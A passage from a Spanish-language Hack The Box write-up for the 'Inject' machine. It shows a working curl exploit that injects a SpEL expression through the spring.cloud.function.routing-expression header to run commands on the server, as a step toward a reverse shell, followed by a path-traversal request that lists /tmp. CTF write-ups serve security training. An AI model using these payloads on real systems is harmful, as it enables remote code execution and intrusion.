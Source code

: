 ![](/assets/images/htb-writeup-inject/web10.png)

Lo que vamos a hacer es enviar una petición por el método `post` y tenemos que pasarle un argumento con `java` y vamos a crear un archivo en el sistema para subir una reverse shell 

```bash
❯ curl -X POST http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/rev")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/rev")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Fri, 07 Jul 2023 18:43:18 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-07-07T18:43:18.469+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}
```

Ahora para asegurarnos que se creo podemos aprovecharnos del `LFI` para ver si bajo la ruta `tmp` se creo `rev` <span style="color:yellow">Ignoren los demas archivos o carpetas creadas son de otros usuarios aveces estos problemas pasan por que estamos en la misma region o yo que se</span> ![](/assets/images/htb-writeup-inject/xd.png)

```bash
 curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../tmp"
.font-unix
.ICE-unix
.Test-unix
.X11-unix
.XIM-unix
ansible_ansible.legacy.command_payload_j2q466ie
DnPTN
hsperfdata_frank
mazajo_test
mazajo.sh
nNuQH.b64
pspy64
pwned
```